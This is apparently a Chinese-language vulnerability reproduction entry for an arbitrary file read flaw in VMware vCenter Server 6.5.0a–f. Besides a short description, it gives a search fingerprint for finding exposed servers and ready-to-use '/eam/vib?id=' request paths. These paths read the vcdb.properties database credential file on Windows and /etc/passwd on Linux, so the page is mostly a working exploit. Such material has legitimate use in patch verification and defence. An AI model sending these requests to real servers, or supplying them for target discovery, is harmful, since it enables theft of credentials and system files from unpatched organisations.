 # VMware vCenter vid 任意文件读取漏洞

## 漏洞描述
VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、
## 漏洞影响
<a-checkbox checked> VMware vCenter Server 6.5.0a- f 版本</a-checkbox></br>
## 网络测绘
<a-checkbox checked> title="ID_VC_Welcome"</a-checkbox></br>

## 漏洞复现

登录页面

![image-20220311164942992](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220311164942992.png)

<a-checkbox checked> Windows主机</a-checkbox></br>

```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

<a-checkbox checked> Linux主机</a-checkbox></br>

```
/eam/vib?id=/etc/passwd
```

![image-20220311164928273](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220311164928273.png)

